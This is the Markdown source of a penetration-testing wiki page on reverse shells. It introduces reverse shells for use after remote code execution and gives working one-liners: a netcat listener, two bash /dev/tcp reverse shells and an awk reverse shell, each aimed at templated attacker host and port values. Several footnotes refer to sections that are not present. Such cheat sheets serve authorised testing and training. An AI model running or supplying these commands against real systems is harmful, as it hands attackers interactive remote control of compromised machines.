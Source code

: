 ```yaml
---
title: Reverse Shells
weight: 402
---
```

# Reverse Shells

After the exploitation of a remote code execution (RCE) vulnerability, the next step will be to interact with the compromised target.
Reverse shells, as opposed to bind shells, initiate the connection from the remote host to the local host. They are especially handy and, sometimes the only way, to get remote access across a NAT or firewall.

The chosen shell will depend on the binaries installed on the target system, although uploading a binary can be possible.[^pentestmonkey][^swisskyrepo-shells]

## Unencrypted Shells

### Netcat Listener

To get the connection from the remote machine (_`{{< param "war.rhost" >}}`_) and interact with it, a listener have to be set on the desired port (_`{{< param "war.lport" >}}`_) on the local machine (_`{{< param "war.lhost" >}}`_).

```sh
sudo nc -nvlp {{< param "war.lport" >}}
```
{{<details "Parameters"></details>}}

{{<note>}}
Use a port that is likely allowed via outbound firewall rules on the target network.

Ports from 1 to 1023 are by default privileged ports. To bind to a privileged port, a process must be running with root permissions.
{{</note>}}

### Bash

```sh
bash -i >& /dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}} 0>&1
```

```sh
0<&196;exec 196<>/dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}}; sh <&196 >&196 2>&196
```

### Awk

```sh
awk 'BEGIN {s = "/inet/tcp/0/{{< param "war.lhost" >}}/{{< param "war.lport" >}}"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.